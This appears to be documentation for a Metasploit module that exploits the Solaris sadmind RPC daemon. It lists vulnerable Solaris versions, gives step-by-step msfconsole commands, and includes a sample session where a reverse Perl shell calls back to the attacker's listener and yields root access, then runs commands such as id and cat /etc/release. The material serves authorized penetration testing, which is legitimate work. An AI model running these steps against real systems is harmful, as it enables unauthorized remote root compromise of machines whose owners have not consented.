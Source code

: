 ## Vulnerable Application

This exploit targets a weakness in the default security settings of
the Sun Solstice AdminSuite distributed system administration daemon
(sadmind) RPC application. This server is installed and enabled by
default on most versions of the Solaris operating system.

Vulnerable systems include Solaris 2.7, 8, and 9.

This module has been successfully tested on:

* Solaris 8 02/00 (x86);
* Solaris 8u1 06/00 (x86);
* Solaris 8u2 10/00 (x86);
* Solaris 8u3 01/01 (x86);
* Solaris 8u4 04/01 (x86);
* Solaris 9u2 12/02 (x86).


## Verification Steps

1. Start `msfconsole`
1. Do: `use exploit/solaris/sunrpc/sadmind_exec`
1. Do: `set rhosts [rhost]`
1. Do: `exploit`
1. You should get a new session as the `root` user.


## Options

### HOSTNAME

Remote hostname. The hostname will be detected automatically by default;
however, using the automatically detected hostname will fail if the system
hostname was changed after the sadmind service was started.

### GID

GID to emulate (default: `0`)

### UID

UID to emulate (default: `0`)


## Scenarios

### Solaris 8u1 06/00 s28x_u1wos_08 INTEL (x86)

```
msf6 > use exploit/solaris/sunrpc/sadmind_exec
msf6 exploit(solaris/sunrpc/sadmind_exec) > set rhosts 192.168.200.148
rhosts => 192.168.200.148
msf6 exploit(solaris/sunrpc/sadmind_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(solaris/sunrpc/sadmind_exec) > run
[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.148:111 - Attempting to determine hostname
[*] 192.168.200.148:111 - Found hostname: unknown
[*] 192.168.200.148:111 - Sending payload (234 bytes)
[+] 192.168.200.148:111 - Exploit did not give us an error, this is good.
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.148:32810) at 2025-04-21 01:38:08 -0400

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.8 Generic_108529-01 i86pc i386 i86pc
cat /etc/release
                        Solaris 8 6/00 s28x_u1wos_08 INTEL
           Copyright 2000 Sun Microsystems, Inc.  All Rights Reserved.
                             Assembled 28 April 2000
```

